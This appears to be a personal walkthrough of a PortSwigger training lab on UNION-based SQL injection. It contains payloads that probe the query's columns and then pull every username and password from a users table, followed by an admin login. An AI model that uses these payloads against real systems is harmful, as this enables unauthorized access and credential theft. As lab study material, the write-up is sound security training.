 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site
![[Pasted image 20241202173918.png]]
Check that we really have 2 columns
```SQL
'+UNION+SELECT+NULL,NULL--
```
![[Pasted image 20241202174625.png]]
Check which column is displayed on the page. This is the second
```SQL
'+UNION+SELECT+NULL,'NULL'--
```
![[Pasted image 20241202174819.png]]
Now, instead of the second `NULL` we insert what we want to get
```SQL
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```
![[Pasted image 20241202174907.png]]
Log in as admin
![[Pasted image 20241202174939.png]]
![[Pasted image 20241202174951.png]]